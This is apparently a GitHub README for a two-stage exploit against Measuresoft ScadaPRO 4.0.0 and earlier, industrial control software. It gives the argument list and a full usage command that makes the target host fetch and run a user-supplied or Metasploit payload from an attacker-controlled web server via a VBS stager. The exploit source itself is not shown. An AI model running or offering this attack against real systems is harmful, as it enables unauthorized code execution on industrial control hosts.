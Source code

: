 # Measuresoft-ScadaPRO
2-staged exploit for vulnerability that arises in Measuresoft ScadaPRO 4.0.0 (and earlier) versions. <br>
This exploits doesn't perform RCE, which makes it unique it serves payload through the locally hosted web server. <br>
You should generate your own or metasploit payload in this directory which you want to be executed on remote scada host.

## Requirements
```
Python 3.x
Libraries:
argparse
requests
sys
os
```

## CLI parse explanation
```
rhost = remote host ip address
rport = remote host port used for exploitation
lhost = local (or remote) host which will be used to serve payload
lport = local (or remote) host port used for serving payload
payload_name = file name for payload served
stager_name = file name for vbs script which is stager
temp_folder = directory where vbs stager will be hosted
```
## Usage
`ALL ARGUMENTS MUST BE USED` <br>
Usage: `python3 exploit.py [rhost] [rport] [lhost] [lport] [payload name] [stager name] [temp directory]` <br>
Example: `python3 exploit.py 192.168.1.1 502 192.168.1.2 8080 payload.exe stager.vbs /tmp`

# Disclaimer
### Do not use this against targets that did not give you authorization to do it. I am not responsible for any misusage of this program.


```  ___ ___                __       __  .__               _________                  .___       
 /   |   \_____    ____ |  | __ _/  |_|  |__   ____    /   _____/ ____ _____     __| _/____   
/    ~    \__  \ _/ ___\|  |/ / \   __\  |  \_/ __ \   \_____  \_/ ___\\__  \   / __ |\__  \  
\    Y    // __ \\  \___|    <   |  | |   Y  \  ___/   /        \  \___ / __ \_/ /_/ | / __ \_
 \___|_  /(____  /\___  >__|_ \  |__| |___|  /\___  > /_______  /\___  >____  /\____ |(____  /
       \/      \/     \/     \/            \/     \/          \/     \/     \/      \/     \/ 
```
